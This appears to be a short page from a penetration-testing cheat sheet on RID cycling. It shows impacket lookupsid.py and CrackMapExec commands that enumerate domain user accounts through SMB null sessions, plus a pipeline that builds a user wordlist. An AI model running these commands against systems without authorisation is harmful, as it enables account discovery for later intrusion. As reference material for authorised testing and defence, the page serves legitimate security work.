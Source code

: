```yaml
---
description: Relative Identifier
---
```


# RID Cycling

* [https://www.trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack/](https://www.trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack/)

Perform RID cycling attack against a DC with SMB null sessions allowed with [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py):

```
$ lookupsid.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 20000 [-domain-sids] | tee ~/ws/log/lookupsid.out
$ cat ~/ws/log/lookupsid.out | grep SidTypeUser | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F'\' '{print $2}' | awk '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

With CrackMapExec:

```
$ cme smb 192.168.1.11 -u '' -p '' --users
```
